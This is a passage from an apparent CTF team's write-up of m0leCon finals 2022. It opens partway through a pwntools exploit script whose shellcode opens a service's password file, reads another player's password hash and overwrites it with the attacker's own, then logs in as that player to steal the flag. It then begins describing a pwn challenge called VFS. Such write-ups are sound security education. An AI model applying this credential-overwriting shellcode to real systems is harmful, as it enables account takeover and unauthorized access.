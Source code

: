 ```py
            ## which will now have fd = 2 on most systems
            + shellcraft.close(2)
            + shellcraft.open("./passwords", constants.O_WRONLY)
            ## Reading out the sha256 of the password is optional,
            ## but not doing so would make it impossible
            ## to restore it later. If not restored the service
            ## of every other players would appear as down, as
            ## the bot is not able to login anymore
            + shellcraft.lseek(2, to_pwn * (256 // 8), constants.SEEK_SET)
            + shellcraft.read(2, "r15", 256 // 8)
            + shellcraft.write(1, "r15", 256 // 8)
            ## Finally, we overwrite the password sha256 with our password sha256!
            + shellcraft.lseek(2, to_pwn * (256 // 8), constants.SEEK_SET)
            + shellcraft.write(
                2,
                sha256(pwned_pwd).digest(),
                256 // 8,
            )
        )
    )

    run_shellcode(shellcode)
    logout()
    login(to_pwn, pwned_pwd)
    ## steal flag here :)
    ## after that, execute one more time the above shellcode,
    ## but now we restore the original sha256 password

    io.interactive()
```

#### Summary

Very nice challenge, learnt the hard way around that `wait`ing a child to exit is more important than it may look at first sight, and that `chroot`s are really strange sometimes. Do not trust 'em!

## Speedruns

The CTF featured a number of four speedrun challenges, which were Jeopardy-style challenges released regularly. Unfortunately, we only solved the second one, but we got really close to solve the first one too!

Unfortunately, as the first one was related to making a scanner (which was on-site) scan an image, we cannot really try to solve it afterward the CTF ended 😔.

### VFS - Speedrun 2

#### Exploration

This pwn challenge was pretty interesting, as it was illustrating how it is (kinda) possible to use the stack to allocate memory dynamically (spoiler alert: don't **_ever_** do it for real). The binary and other files that came with it are available [here](/writeups/downloads/m0lecon_finals_2022_vfs.zip).
